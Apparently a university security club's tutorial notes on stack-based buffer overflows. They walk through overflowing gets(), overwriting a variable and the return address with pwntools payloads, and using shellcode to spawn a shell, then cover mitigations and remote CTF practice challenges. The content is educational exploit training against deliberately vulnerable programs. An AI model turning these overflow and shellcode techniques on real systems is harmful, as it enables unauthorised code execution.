 # Stack Smashing
Today we'll be exploring stack smashing, one of the oldest and most fundamental
techniques of exploitation.

## Unsafe Writes
The premise of this bug is simple: When data is written to memory in C, there
is no concept of a "buffer", let alone the size of a buffer. This means that if
a function is instructed to write past the end of a buffer, it will happily do
so, overwriting any other data that happens to be sitting in the way. For
example, consider the manpage entry for `gets()`:

```
SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

From the first sentence of the description, the manpage makes it blatantly
obvious how unsafe the function is, for the same reason described above. There
is no check for a buffer overrun. Consider the snippet of code below:

```C
#include <stdio.h>

int main(void) {
    int num = 1443;
    char buf[50];

    gets(buf);

    printf("%d\n", num);

    return 0;
}
```

Below is a diagram of the stack just before the call to `gets()`.

![Stack before gets()](./stack_smashing_example1.png)

If we were to enter a string of length 49 or less (remember the terminating
null byte), we would expect this program to print 1443. But what if we were to
enter 50 or more characters? Since `gets()` doesn't do any bounds checking, we
expect `num` to be overwritten. Lets see this happen in practice. Compile the
program above with `gcc -fno-stack-protector prog.c` and run `python -c 'print
"A"*49' | ./a.out`:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*49' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*50' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Well, so much for that. Though it may seem like the input was unsuccessful, the
truth is that the size of the buffer is being padded to a multiple of 8 bytes
(a machine word) for better performance. So the "real" size of the buffer is
56 bytes, not 50. Knowing this, lets try again:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*55' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*56' | ./a.out
1280
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Just as expected, `num` is being overwritten. Below is a diagram of the stack
after the call to `gets()`:

![Stack after gets()](./stack_smashing_example2.png)

Since `num` is stored in little-endian byte order, the least significant bit is
overwritten first, changing the value from `0x00000005A3` to `0x0000000500`.
You can verify in python that these are equal to 1443 and 1280, respectively.
Additionally, you can simply write a ton of 'A' characters to overwrite the
return address, causing the program to crash.

## Targeted writes
Since we can overwrite `num` with arbitrary bytes, we can effectively change it
to be any value we want. The classical way to do this is to use python's
`struct` module. However, we have better tools available to us now. This is how
to write arbitrary bytes in 2017:

```python
#!/usr/bin/python
from pwn import *

your_val_here = 12345
p = process('./a.out')
p.sendline('A' * 56 + p64(your_val_here))
print p.readline()
```
If you want to write negative arguments, you'll have to use something like
`p64(-1, sign="signed", endinanness="little")`.

## Control hijacking
Overwriting variables is fun, but overwriting the return address is of
particular interest, since doing so allows us to control which function is
called next. In the program above, if we substitute `p.sendline('A' * 56 +
p64(your_val_here))` with `p.sendline('A' * 72 + p64(your_address_here))`, the
program will start executing instructions at `your_address_here` after
returning from `main()`. We need only supply the location in memory of the
desired function.

### Symbols
When a program is compiled, the locations of global variables and functions are
named (unless you tell the compiler not to do this). These names are called
*symbols*, and we can view them with a tool called `readelf`. Run `readelf
--symbols a.out | less` to view the symbols of `a.out`. My output from
`readelf --symbols a.out` is below:

```
[truncated]
59: 0000000000601030     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
60: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
61: 0000000000601038     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
62: 0000000000400620     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
63: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
64: 00000000004005a0   101 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
65: 0000000000601048     0 NOTYPE  GLOBAL DEFAULT   26 _end
66: 0000000000400470    42 FUNC    GLOBAL DEFAULT   14 _start
67: 0000000000601040     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
68: 0000000000400566    57 FUNC    GLOBAL DEFAULT   14 main
69: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _Jv_RegisterClasses
70: 0000000000601040     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
71: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
72: 0000000000400400     0 FUNC    GLOBAL DEFAULT   11 _init
```
From this output, we can see that `main()` is located at `0x400566`. If there
were other functions in the program (line in challenge 3), they would be
included here too, and you could read off their memory locations.

# Shellcode
Shellcoding is the oldest trick in the binary exploitation book. It's
essentially a clever way to handle the fact that overwriting the return
address only allows us to execute functions that are already in the program.
The trick is to write our own instructions to memory *in addition to* the
address to jump to. The attack is best summarized with a diagram. We craft our
input such that the resulting stack has the following form:

![Shellcode Input](./shellcode_diagram.png)

If we overwrite the start of `buf` with our shellcode and the return address
with the address of `buf`, then when the program will begin executing the
shellcode when the function returns. And since the purpose of shellcode is to
spawn a shell, we can then run arbitrary commands on the machine that was
exploited, a disastrous result for a bug as innocent as an incorrect write.

# Mitigation Techniques
Since buffer overflows are so common and so dangerous, many mitigation
techniques have been invented to make them more difficult to exploit. The most
common ones are stack canaries, non-executable stacks, and ASLR.

## Stack Canaries
These are random word-sized values written to the stack between local variables
and the saved frame pointer. Before the function returns, the stack canary is
checked to ensure it still has the same value that it did originally. If not,
an error is thrown.

## Non-Executable Stack
An error is thrown whenever the program attempts to execute instructions from
the stack.

## Address Space Layout Randomization (ASLR)
The segments composing the program's memory are randomized before each run,
making it much more difficult to find the address of functions.

These techniques make stack smashing much more difficult in practice, but they
do not make it impossible. At its core, exploitation requires an attention to
detail greater than even the original authors, not rote memorization of
techniques.

# Challenges
There are 4 challenges, each running at `lox.xvm.mit.edu:800X`, where `X` is
the number of the challenge (starting from 1). You can interact with the
programs from the command line with `netcat` (`echo "input" | nc
lox.xvm.mit.edu 8001`) or `telnet` (`telnet lox.xvm.mit.edu 8001`). From a
python script, you may find the following useful:

* `from pwn import *` - import all the `pwn` modules
* `s = remote('lox.xvm.mit.edu', 8001)` - create a `remote` object
* `remote.sendline()` - send a line of input to the port specified by `remote`
* `remote.readline()` - read a line of input from the port specified by `remote`
* `remote.interactive()` - interact with the port specified by `remote`
directly
* `shellcode = asm(shellcraft.i386.linux.sh())` - save 32-bit shellcode to
`shellcode`
